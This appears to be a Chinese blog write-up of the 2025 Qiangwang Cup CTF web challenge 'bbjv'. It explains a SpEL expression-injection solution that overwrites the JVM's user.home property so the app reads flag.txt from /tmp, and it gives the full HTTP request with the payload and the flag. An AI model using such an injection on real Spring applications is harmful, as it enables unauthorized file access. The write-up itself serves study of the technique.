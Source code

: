```yaml
---
title: "2025 强网杯 bbjv"
outline: deep
tags: "CTF, writeup, 2025强网杯"
updateTime: "2025-10-25 17:38"
---
```

# 2025 强网杯 bbjv
闲来无事，顺手写一题强网杯Web签到题。
## 分析

`ReflectivePropertyAccessor`类限制Spel表达式无法直接实例化类，也就是无法通过构造其他类进行RCE

![image](assets/2025强网杯bbjv/image-20251019133553-9rm3atf.png)

题目存在对flag.txt的读取，说明其题目本意不是让我们进行rce，而是修改环境变量`user.home`，从而读取flag

![image](assets/2025强网杯bbjv/image-20251019133851-swgz49a.png)

给出的Dcokerfile，我们可以发现flag.txt在/tmp目录下，因此我们只需要修改系统环境变量，将`user.home`修改为`/tmp`即可获得flag

![image](assets/2025强网杯bbjv/image-20251019133950-557xayo.png)

## 题解

```
GET /check?rule=&#123;&#123;urlesc(#{#systemProperties['user.home']='/tmp'})&#125;&#125; HTTP/2.0
Host: eci-2ze848gtw123nuofjx8b.cloudeci1.ichunqiu.com:8080
sec-fetch-site: none
upgrade-insecure-requests: 1
priority: u=0, i
accept-language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
sec-fetch-user: ?1
accept-encoding: gzip, deflate, br, zstd
sec-ch-ua: "Google Chrome";v="141", "Not?A_Brand";v="8", "Chromium";v="141"
accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
sec-fetch-mode: navigate
user-agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/141.0.0.0 Safari/537.36
sec-fetch-dest: document
```

![image](assets/2025强网杯bbjv/image-20251019133634-kaocr47.png)

`flag{030d206d-92ea-4c12-a96e-23e11eaaa882}`

## 思考

`systemProperties`变量在Spring EL（SpEL）中，**代表当前JVM中的所有系统属性**，通常以`java.util.Properties`对象形式提供。

来源：这些属性主要来自JVM启动参数（以`-D`指定，如`-Dfile.encoding=UTF-8`），也包含JVM运行时内置属性（如`java.version`、`user.home`等）。

与`systemEnvironment`区别：`systemProperties`获取的是JVM级别的系统属性。而`systemEnvironment`获取的是操作系统级别的环境变量，例如PATH、JAVA\_HOME等。它们是两个不同的概念。

在此环境中不存在`systemEnvironment`变量值。

为什么Dockerfile中没有指定`user.home`的值，JVM也会设置其为`/root`？

![image](assets/2025强网杯bbjv/image-20251019135000-3j83bip.png)

**JVM内置默认值**

Java运行时环境会设置一系列默认的系统属性，包括：

- `user.home` - 用户主目录
- `user.dir` - 当前工作目录
- `java.home` - Java安装目录
- `os.name` - 操作系统名称

![image](assets/2025强网杯bbjv/image-20251019135342-1b1kz6i.png)